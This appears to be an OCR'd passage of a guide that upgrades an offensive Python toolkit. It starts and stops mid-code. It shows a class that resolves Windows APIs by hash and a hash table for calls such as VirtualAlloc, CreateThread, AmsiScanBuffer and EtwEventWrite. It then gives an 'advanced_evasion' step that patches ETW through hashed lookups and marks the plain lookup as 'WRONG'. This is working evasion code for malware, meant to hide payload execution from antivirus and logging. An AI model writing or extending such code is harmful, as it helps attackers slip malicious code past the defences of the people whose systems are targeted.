 ```python
                    return module_base + func_rva
            
            return None
            
        except:
            return None
    
    def resolve_api(self, module_name: str, function_name: str) -> Optional[int]:
        """
        Resolve API using hashes only
        
        Usage:
            hasher = APIHasher()
            virtual_alloc = hasher.resolve_api("kernel32.dll", "VirtualAlloc")
            
            # Call it
            func = ctypes.WINFUNCTYPE(...)(virtual_alloc)
            func(args...)
        """
        module_hash = self.hash_string(module_name)
        function_hash = self.hash_string(function_name)
        
        # Get module
        module_base = self.get_module_handle_hashed(module_hash)
        if not module_base:
            return None
        
        # Get function
        return self.get_proc_address_hashed(module_base, function_hash)

# Generate hash lookup table
if __name__ == "__main__":
    # Generate hashes for all APIs you need
    apis_to_hash = [
        "VirtualAlloc", "VirtualProtect", "CreateThread",
        "EtwEventWrite", "AmsiScanBuffer", "NtCreateThreadEx",
        # ... add 200+ more
    ]
    
    for api in apis_to_hash:
        hash_val = APIHasher.hash_string(api)
        print(f"'{api}': 0x{hash_val:08X},")
```

**Step 2:** Update `Core/advanced_evasion.py`
```python
from .api_hashing import APIHasher

class AdvancedEvasion:
    def __init__(self):
        self.hasher = APIHasher()
        # ... rest
    
    def patch_etw(self) -> bool:
        # OLD (WRONG):
        # etw_event_write = self.kernel32.GetProcAddress(...)
        
        # NEW (CORRECT):
        ntdll_hash = self.hasher.hash_string("ntdll.dll")
        etw_hash = self.hasher.hash_string("EtwEventWrite")
        
        ntdll_base = self.hasher.get_module_handle_hashed(ntdll_hash)
        etw_event_write = self.hasher.get_proc_address_hashed(ntdll_base, etw_hash)
        
```